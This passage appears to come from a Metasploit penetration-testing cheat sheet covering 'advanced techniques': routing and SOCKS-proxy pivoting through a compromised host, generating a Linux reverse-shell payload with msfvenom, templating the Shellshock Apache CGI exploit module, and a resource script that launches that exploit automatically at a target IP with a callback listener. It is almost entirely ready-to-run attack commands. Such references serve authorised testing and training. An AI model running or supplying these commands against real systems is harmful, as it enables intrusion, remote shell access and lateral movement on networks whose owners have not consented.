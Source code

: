 
## Advanced Techniques

### Pivoting and Routing
```bash
# Add route through compromised host
route add 192.168.2.0/24 <session_id>

# Use compromised host as proxy
use auxiliary/server/socks4a
set SRVPORT 1080
run -j

# Configure proxychains to use SOCKS proxy
# Edit /etc/proxychains4.conf
# socks4 127.0.0.1 1080
proxychains nmap -sT 192.168.2.100
```

### Custom Payloads and Exploits
```bash
# Create custom payload template
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f c

# Ruby exploit template
cp /usr/share/metasploit-framework/modules/exploits/linux/http/apache_mod_cgi_bash_env_exec.rb my_exploit.rb

# Load custom module
loadpath /path/to/custom/modules
```

### Automation and Scripting
```bash
# Resource scripts for automation
cat > auto_exploit.rc << EOF
use exploit/linux/http/apache_mod_cgi_bash_env_exec
set RHOSTS 192.168.1.100
set LHOST 10.10.10.10
set LPORT 4444
exploit -j
EOF

# Run resource script
msfconsole -r auto_exploit.rc
```

---

## Other Exploitation Frameworks
